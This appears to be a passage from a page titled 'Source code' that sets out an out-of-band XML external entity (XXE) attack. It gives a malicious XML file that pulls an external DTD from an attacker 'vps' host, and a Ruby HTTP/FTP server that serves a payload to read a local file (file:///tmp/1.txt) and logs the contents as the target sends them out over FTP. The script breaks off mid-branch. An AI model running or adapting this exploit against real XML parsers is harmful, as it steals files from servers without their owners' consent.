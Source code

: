 ```
<?xml version="1.0"?>
<!DOCTYPE a [
   <!ENTITY % asd SYSTEM "http://vps:8088/"> 
   %asd; 
   %rrr; 
]>
<a></a>
```

启动ftp-server

```ruby
require 'socket'

ftp_server = TCPServer.new 2121
http_server = TCPServer.new 8088

log = File.open( "xxe-ftp.log", "a")

payload = '<!ENTITY % b SYSTEM "file:///tmp/1.txt">
           <!ENTITY % c "<!ENTITY &#37; rrr SYSTEM \'ftp://127.0.0.1:2121/%b;\'>">
           %c;'

Thread.start do
loop do
  Thread.start(http_server.accept) do |http_client|
	puts "HTTP. New client connected"
	loop {
		req = http_client.gets()
		break if req.nil?
		if req.start_with? "GET"
			http_client.puts("HTTP/1.1 200 OK\r\nContent-length: #{payload.length}\r\n\r\n#{payload}")
		end
		puts req
	}
	puts "HTTP. Connection closed"
  end
end

end

Thread.start do
loop do
  Thread.start(ftp_server.accept) do |ftp_client|
	puts "FTP. New client connected"
	ftp_client.puts("220 xxe-ftp-server")
	loop {
		req = ftp_client.gets()
		break if req.nil?
		puts "< "+req
		log.write "get req: #{req.inspect}\n"

		if req.include? "LIST"
			ftp_client.puts("drwxrwxrwx 1 owner group          1 Feb 21 04:37 test")
			ftp_client.puts("150 Opening BINARY mode data connection for /bin/ls")
			ftp_client.puts("226 Transfer complete.")
		elsif req.include? "USER"
			ftp_client.puts("331 password please - version check")
		elsif req.include? "PORT"
			puts "! PORT received"
			puts "> 200 PORT command ok"
			ftp_client.puts("200 PORT command ok")
		else
```